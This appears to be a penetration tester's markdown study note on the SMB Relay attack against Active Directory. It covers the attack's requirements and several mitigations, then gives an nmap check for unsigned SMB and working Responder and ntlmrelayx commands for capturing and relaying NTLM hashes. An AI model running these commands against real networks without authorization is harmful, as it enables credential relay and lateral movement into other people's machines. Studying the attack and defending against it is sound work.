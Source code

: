 # SMB Relay 
instead of cracking the target hashes we captured with responder we can instead relay the hashes to specific machines and potentially gain access
## Requirements 
- SMB signing disabled on the target or enabled but not required 
- Relayed user creds must be admin on the machine
- we can't send hashes from a machine to a same machine it must be admin on other machine


# Mitigation

- Enable SMB Signing on all devices
    - Pro: Completely stops the attack
    - Con: Can cause performance issues with file copies
- Disable NTLM authentication on network 
	- Pro: Completely stops the attack
    - Con: If Kerberos stops working, Windows defaults back to NTLM
- Account tiering:
	 - Pro: Limits domain admins to specific tasks (e.g. only log onto serves with need for DA)
    - Con: Enforcing the policy may be difficult 

- Local admin restriction
	- Pro: Can prevent a lot of lateral movement
	- Con: Potential increase in the amount of service desk tickets 




# nmap check for smb signing disabled
```bash
# nmap script to check for smb signing disabled
nmap --script=smb2-security-mode.nse -p445 IP/RANGE
```

# Example


disable responding on SMB and HTTP:
```bash
/usr/share/responder/Responder.conf # edit turn off smb and http
```

Run Responder
```
sudo Responder -I eth0 -dwv
```

Run ntlmrelayx:
```
sudo ntlmrelayx.py -tf target.txt -smb2support
```

---
Tags: #AD #smb #smb_relay #responder #LLMNR 

Resources: [dirkjanm_blog](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)